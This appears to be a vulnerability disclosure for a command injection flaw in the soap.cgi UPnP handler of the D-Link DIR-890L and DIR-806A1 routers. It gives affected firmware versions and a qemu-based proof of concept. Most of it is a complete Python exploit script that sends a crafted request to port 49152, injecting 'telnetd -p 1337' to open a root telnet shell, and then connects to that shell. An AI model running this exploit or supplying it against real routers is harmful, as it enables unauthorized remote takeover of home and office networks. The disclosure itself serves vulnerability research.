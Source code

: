 # Information



**Vendor of the products:**   D-Link

**Vendor's website:** [D-Link | Welcome](https://www.dlink.com.cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** DIR-890 L A1  DIR-806A1

**Affected firmware version:** <=108B03  <=100CNb11

**Firmware download address:** https://www.dlink.com.cn/techsupport/download.ashx?file=4927 

​													https://www.dlink.com.cn/techsupport/download.ashx?file=63

# Overview

The router D-Link DIR-890 L 108b03 and  DIR-806A1 100CNb11 has a serious command injection vulnerability. Attackers can set the request header through the path /htdocs/soap.cgi and inject commands through the function `sub_175C8()` to achieve remote command execution and even cause serious consequences.The attackers can exploit the vulnerability to carry out arbitrary code by means of sending a specially constructed payload to port 49152.

# Vulnerability details

The prerequisite is to reasonably control the fields through these branches.

![image-20250410161830528](1/image-20250410161830528.png)

The following command splicing is performed on the variable v12 and then the command is executed

![image-20250410162115041](1/image-20250410162115041.png)



# POC

```py
from gt import *
con("mips")
post_content = "DDDdd"
io = process(b"""
    qemu-arm -L ./ \
    -0 "soap.cgi" \
    -E REQUEST_METHOD="POST" \
    -E HTTP_SOAPACTION="aaaaa#bbbbb" \
    -E CONTENT_TYPE="text/xml" \
    -E REQUEST_URI="aaa?service=bb;ls;id;" \
    -E SERVER_ID=111 \
    -E CONTENT_LENGTH=5 \
    -g 1234 ./htdocs/cgibin
""", shell = True)
io.send(post_content)

io.interactive()
```



![image-20250410162303653](1/image-20250410162303653.png)

```py
#!/usr/bin/env python3
"""
UPnP Exploit Script
This script exploits a vulnerable UPnP service to open a telnet shell.
"""

import socket
import os
import time
import sys

# Configuration
HOST = '192.168.0.1'       # Target host IP
UPNP_PORT = 49152          # UPnP service port
SHELL_PORT = 1337          # Port to open for telnet shell
TIMEOUT = 5                # Connection timeout in seconds
WAIT_TIME = 5              # Time to wait for shell to open

def create_exploit_request(host, port, shell_port):
    """Create the malicious UPnP request payload."""
    request = f"POST /soap.cgi?service=;telnetd -p {shell_port}; HTTP/1.1\r\n"
    request += f"Host: {host}:{port}\r\n"
    request += "Content-Type: text/xml\r\n"
    request += "Content-Length: 100\r\n"
    request += "SOAPAction: \"urn:schemas-upnp-org:service:serviceType:v#actionName\"\r\n\r\n"
    return request.encode()

def main():
    try:
        # Create and configure socket
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(TIMEOUT)

        print(f"[*] Connecting to {HOST}:{UPNP_PORT}")
        sock.connect((HOST, UPNP_PORT))

        # Create and send exploit request
        request = create_exploit_request(HOST, UPNP_PORT, SHELL_PORT)
        print("[*] Sending payload")
        sock.send(request)
        sock.close()

        print(f"[*] Waiting {WAIT_TIME} seconds for shell to open...")
        time.sleep(WAIT_TIME)

        print(f"[*] Attempting to connect to shell on {HOST}:{SHELL_PORT}")
        os.system(f'telnet {HOST} {SHELL_PORT}')

    except socket.error as e:
        print(f"[!] Socket error: {e}", file=sys.stderr)
        sys.exit(1)
    except Exception as e:
        print(f"[!] Error: {e}", file=sys.stderr)
        sys.exit(1)

if __name__ == "__main__":
    main()
```

![image-20250410231719267](1/image-20250410231719267.png)
